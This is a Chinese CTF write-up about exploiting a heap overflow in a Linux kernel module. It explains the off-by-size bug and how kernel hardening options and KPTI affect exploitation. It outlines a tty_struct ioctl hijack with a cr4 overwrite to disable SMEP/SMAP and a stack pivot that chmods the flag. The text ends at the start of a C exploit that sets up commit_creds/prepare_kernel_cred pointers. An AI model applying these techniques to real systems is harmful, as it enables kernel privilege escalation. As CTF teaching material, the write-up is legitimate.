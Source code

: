 ```
```

返回题目中的代码，可以发现：若第一次写入 0x3FF 大小数据 ，`fd-&gt;pos=0x3FF`，第二次写入时的 `fd-&gt;pos`值还是 0x3FF ，通过验证，而堆块大小为0x400，造成了堆溢出。可以通过 `mod_read()` ， `mod_write()` 实现越界读写。

> <p>在搭建环境时发现，若内核在编译前加上 `CONFIG_HARDENED_USERCOPY=y` ，则会在 `copy_from_user, copy_to_user` 前加上 `check_object_size(from, n, true);` 这样一个检查，作用是验证地址有效性、检查是否有堆栈或SLAB的越界读写。即使出现题目中的堆溢出，也只能造成crash，无法利用。<br>
编译前加上 `CONFIG_SLAB_FREELIST_HARDENED=y`，free_list中指针会以 `ptr ^ s-&gt;random ^ ptr_addr` 这种方式进行混淆，从而导致无法泄露堆地址；但该保护措施有缺陷可以绕过，详见参考[4]。</p>



## 方法一

### <a class="reference-link" name="%E5%88%A9%E7%94%A8%E6%80%9D%E8%B7%AF"></a>利用思路

起初的思路是堆溢出修改 `tty_struct` 劫持 `ioctl` 指针，覆写cr4 关闭 SMEP、SMAP后，进行栈迁移直接ret2usr。但在编写 ROP chain 时发现当调用用户态代码的时候内核会报如下错误 ：`BUG: unable to handle kernel paging request at 0000000000400eaa`。关闭 KPTI 后，exp能成功执行。印象中的 KPTI 将用户空间页表与内核空间页表进行了隔离，但最终目的是为了防止用户空间获取内核数据。查看官方文档后（参考[5]），发现下面一段话：

> Another potential vulnerability comes about if the kernel can ever be manipulated into returning to user space without switching back to the sanitized PGD. Since the kernel-space PGD also maps user-space memory, such an omission could go unnoticed for some time. The response here is to map the user-space portion of the virtual address space as non-executable in the kernel PGD. Should user space ever start running with the wrong page tables, it will immediately crash as a result.

即在KPTI中，所有用户空间页面都以 NX （不可执行）映射到内核页面表中。 实现了与SMEP非常相似的功能。

虽然限制了不能执行用户空间的代码，但仍然可以将内核栈迁移到用户空间中 。这里只是为了获取 flag 的值，可以不用获得一个交互shell，只需将 flag 权限修改为 777 ，之后让程序 sleep 0x1000000 秒 ，这样做的好处是，就算程序在退出前崩溃也可以在 sleep 的时间内去获取 flag 值。:)

### <a class="reference-link" name="exp"></a>exp

```
#include &lt;stdio.h&gt;
#include &lt;stdarg.h&gt;
#include &lt;string.h&gt;
#include &lt;unistd.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;sched.h&gt;
#include &lt;errno.h&gt;
#include &lt;pty.h&gt;
#include &lt;sys/mman.h&gt;
#include &lt;sys/socket.h&gt;
#include &lt;sys/types.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;sys/syscall.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;sys/ioctl.h&gt;
#include &lt;sys/ipc.h&gt;
#include &lt;sys/sem.h&gt;


#define KERNELCALL __attribute__ ((regparm(3)))
void (* commit_creds)(void *) KERNELCALL;
size_t* (* prepare_kernel_cred)(void *) KERNELCALL;
size_t commit_creds_addr=0,prepare_kernel_cred_addr=0;

struct skewBuf{
    unsigned char padding;
    unsigned long vec[127];
    unsigned char pading[7];
} __attribute__((packed));

void info(const char *fmt, ...) {
```
